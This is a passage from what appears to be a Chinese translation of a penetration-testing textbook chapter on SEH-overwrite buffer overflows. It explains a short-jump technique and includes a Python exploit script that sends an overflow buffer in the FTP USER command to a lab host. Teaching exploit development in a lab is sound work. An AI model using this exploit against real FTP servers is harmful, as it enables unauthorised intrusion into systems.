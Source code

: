 ![执行已重定向到你的攻击字符串。](img/httpatomoreillycomsourcenostarchimages2030574.png.jpg)图 18-18. 执行已重定向到你的攻击字符串。

我们已经解决了第一个问题：我们已将程序的执行重定向到我们的攻击字符串。不幸的是，正如在图 18-18 中看到的那样，在我们遇到 SEH 覆盖地址 `5F4580CA` 之前，我们只有四个可用的字节。SEH 地址后面有一长串 *D*，但目前我们只能使用四个字节。只有四个字节的 shellcode 我们无法做太多事情。

## 使用短跳转

我们需要以某种方式绕过返回地址，并跳转到我们的一长串 *D* 字符中，这里有足够的空间放置我们的最终 shellcode。我们可以使用 `short jump` 汇编指令将 EIP 移动一个短距离。这种方法非常适合我们的目的，因为我们需要跳过 SEH 覆盖的四个字节。

短跳转的十六进制表示为`\xEB` *`<跳转长度>`*。通过将短跳转指令`\xEB` *`<跳转长度>`* 填充两个字节，填满在 SEH 覆盖前的所有四个字节，我们可以跳过填充字节和 SEH 覆盖，跳过六个字节。

编辑攻击字符串，加入短跳转，如示例 18-5 所示。

示例 18-5. 添加短跳转

```
#!/usr/bin/python
import socket
buffer = "A" * 569 + "\xEB\x06" + "B" * 2 + "\xCA\x80\x45\x5F" + "D" * 570
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

如示例 18-5 所示，这次我们将 NSEH（之前是四个 *B* 字符）替换为`"\xEB\x06" + "B" * 2`。在重新运行漏洞利用之前，重置你在 `POP POP RET` 处的断点，当你触发断点时，逐行单步调试程序（F7），查看发生了什么。现在，在 `POP POP RET` 之后，我们有了一个六字节的短跳转，如图 18-19 所示。
